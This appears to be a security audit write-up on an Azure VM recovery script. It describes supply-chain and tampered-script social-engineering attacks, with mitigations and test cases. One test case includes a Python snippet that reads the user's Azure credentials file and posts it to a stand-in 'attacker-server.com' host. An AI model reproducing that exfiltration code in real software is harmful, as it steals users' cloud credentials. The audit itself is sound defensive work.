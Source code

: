 ### Vulnerability 1: Social Engineering via Malicious Package Installation

- **Vulnerability Name:** Social Engineering via Malicious Package Installation
- **Description:**
    - An attacker can create a malicious Python package.
    - The attacker names this package similarly to a legitimate package that might be listed in a `requirements.txt` file for this project (although `requirements.txt` is not provided in the project files, the `README.md` mentions installing requirements).
    - The attacker then hosts this malicious package on a public or rogue package repository.
    - By impersonating a project maintainer or contributor, the attacker socially engineers users into installing this malicious package. This could be done by:
        - Creating a fake repository that looks like the legitimate one but points to the malicious package.
        - Compromising communication channels (forums, social media) to distribute instructions that include installing the malicious package.
        - Modifying a `requirements.txt` file (if distributed through compromised channels) to include or replace legitimate packages with the malicious one.
    - When a user follows these compromised instructions and uses `pip install -r requirements.txt` or a similar command, they unknowingly install and execute the attacker's malicious package.
- **Impact:**
    - Arbitrary code execution on the user's machine.
    - Potential for data theft from the user's local system.
    - Full compromise of the user's development environment.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
    - None. The project does not include any measures to verify the integrity or source of Python packages.
- **Missing Mitigations:**
    - **Dependency Verification:** Implement and document a process for verifying the integrity and authenticity of Python packages. This could include:
        - Providing a `requirements.txt` file with pinned versions and hashes of dependencies in the official repository.
        - Instructing users to verify package hashes against a trusted source before installation.
    - **Code Signing for Releases:** If the project distributes packages directly, signing these packages would help users verify their origin and integrity.
    - **Clear Installation Instructions:** Provide clear and concise instructions in the official documentation, emphasizing downloading the project from the official repository and avoiding third-party sources for installation instructions.
- **Preconditions:**
    - The user must intend to use the scripts in the `vm-zone-move` directory and follow installation instructions.
    - The attacker must successfully impersonate a trusted source and convince the user to install the malicious package.
- **Source Code Analysis:**
    - The file `/code/vm-zone-move/README.md` instructs users to install Python packages using `pip install -r requirements.txt`.
    ```
    * Install the required python packages as mentioned in requirements.txt
      * pip install -r requirements.txt
    ```
    - The `requirements.txt` file itself is not provided in the project files. This lack of a defined `requirements.txt` increases the risk if users are instructed to create one from potentially untrusted sources or if a malicious `requirements.txt` is distributed.
    - The project code does not include any checks or validations on the installed packages. `pip install -r requirements.txt` will blindly install whatever is listed in the `requirements.txt` file.
- **Security Test Case:**
    1. **Setup Malicious Package:** Create a malicious Python package named, for example, `azure-mgmt-compute-rogue`, designed to execute arbitrary code upon installation (e.g., print a warning and create a file).
    2. **Host Malicious Package:** Host this `azure-mgmt-compute-rogue` package on a local PyPI server or a publicly accessible rogue repository.
    3. **Create Malicious Instructions:** Craft instructions (e.g., a modified README or a post in a forum) that instruct users to:
        - Download the project code from a compromised location or a look-alike repository.
        - Use a modified `requirements.txt` file that includes `azure-mgmt-compute-rogue` instead of or in addition to legitimate Azure management packages.
    4. **Social Engineering:** Distribute these malicious instructions through channels where users interested in Azure VM recovery might find them (e.g., forums, social media groups related to Azure, comments on legitimate posts, etc.).
    5. **User Execution:** A test user, intending to use the VM recovery scripts, follows the malicious instructions and executes `pip install -r requirements.txt` (using the malicious `requirements.txt`).
    6. **Verification:** Observe that the malicious code from `azure-mgmt-compute-rogue` executes during the `pip install` process (e.g., the warning message is printed, and the file is created), demonstrating arbitrary code execution due to the installation of the malicious package.

---

### Vulnerability 2: Social Engineering via Malicious Script Execution

- **Vulnerability Name:** Social Engineering via Malicious Script Execution
- **Description:**
    - An attacker modifies the `main.py` script (or any other script intended for user execution) to include malicious code.
    - The attacker then distributes this modified script, impersonating a project maintainer or contributor. This could involve:
        - Hosting the modified script on a fake website that mimics the official project repository.
        - Sharing the malicious script through compromised communication channels (email, forums, social media).
        - Creating a seemingly legitimate patch or update that, in fact, replaces the original script with the malicious one.
    - A user, believing they are downloading and running the legitimate recovery script, executes the attacker's modified `main.py`.
    - The malicious code embedded in the script is then executed, potentially compromising the user's Azure environment and/or their local machine.
- **Impact:**
    - Compromise of the user's Azure subscription.
    - Potential for unauthorized access to and manipulation of Azure resources, including virtual machines.
    - Data exfiltration from Azure VMs or the user's local environment.
    - Denial of service by disrupting or deleting Azure resources.
    - Potential compromise of the local machine if the script interacts with local files or credentials.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    - None. The project offers no mechanism to ensure the authenticity and integrity of the scripts.
- **Missing Mitigations:**
    - **Code Signing for Scripts:** Digitally signing the scripts would allow users to verify that the scripts originate from a trusted source and have not been tampered with.
    - **Checksum Verification:** Providing checksums (e.g., SHA256 hashes) of the scripts in the official documentation would enable users to verify the integrity of downloaded scripts.
    - **Secure Distribution Channels:** Emphasize using only official and trusted channels (e.g., the official GitHub repository) for downloading the scripts. Warn users against downloading scripts from untrusted sources.
    - **Input Validation and Sanitization:** While not directly preventing malicious script execution from external sources, robust input validation and sanitization within the scripts can limit the damage if a user is tricked into running a modified script with malicious inputs.
- **Preconditions:**
    - The user must intend to use the scripts in the `vm-zone-move` directory, specifically `main.py`.
    - The attacker must successfully impersonate a trusted source and convince the user to download and execute the malicious script.
- **Source Code Analysis:**
    - The file `/code/vm-zone-move/README.md` instructs users to download and run `main.py` using Python.
    ```
    * Run main.py with the arguments as the details of the affected VM in the zonal outage.
    ### Example:
    python "path to main.py" --subscription_id "subscription id" --old_vm_name "old vm name" --new_vm_name "recovered vm name" --resource_group_name "resource group name" --new_zone "zone number" --admin_password "password"
    ```
    - There are no built-in checks within the project to verify the integrity of `main.py` before execution. If a user downloads and runs a modified `main.py`, the code will execute without any validation.
- **Security Test Case:**
    1. **Create Malicious Script:** Modify the `main.py` script to include malicious code. For example, add code to exfiltrate Azure credentials to an attacker-controlled server or to delete a test resource group if the provided subscription ID matches a test subscription.
    ```python
    # ... (rest of the original main.py) ...
    import os
    import requests

    # Malicious code: Attempt to exfiltrate Azure credentials (highly simplified example)
    try:
        with open(os.path.expanduser('~/.azure/credentials'), 'r') as f:
            credentials = f.read()
            requests.post("http://attacker-server.com/receive_credentials", data={'creds': credentials}) # Replace with attacker's server
            print("Attempted to send credentials to attacker-server.com (This is a test, replace with actual malicious action)")
    except Exception as e:
        print(f"Credential exfiltration attempt failed: {e}")

    main()
    ```
    2. **Distribute Malicious Script:** Host this modified `main.py` on a rogue website or distribute it via email or a forum post, accompanied by instructions that mimic the legitimate usage instructions from the project's `README.md`.
    3. **Social Engineering:**  Impersonate a project maintainer or a helpful community member to encourage users to download and use this modified `main.py`. For example, create a forum post claiming to offer a "fixed" or "improved" version of the script and link to the malicious `main.py`.
    4. **User Execution:** A test user, intending to use the VM recovery script, is tricked into downloading and executing the malicious `main.py` (e.g., `python main.py --subscription_id ... --resource_group_name ... --old_vm_name ... --new_vm_name ... --admin_password ...`).
    5. **Verification:** Observe the execution of the malicious code. In this example, verify if a request is sent to `attacker-server.com` (using network monitoring tools) or if the test resource group is deleted (if the malicious code targets resource deletion in a test subscription). This demonstrates the potential for malicious actions due to the execution of the compromised script.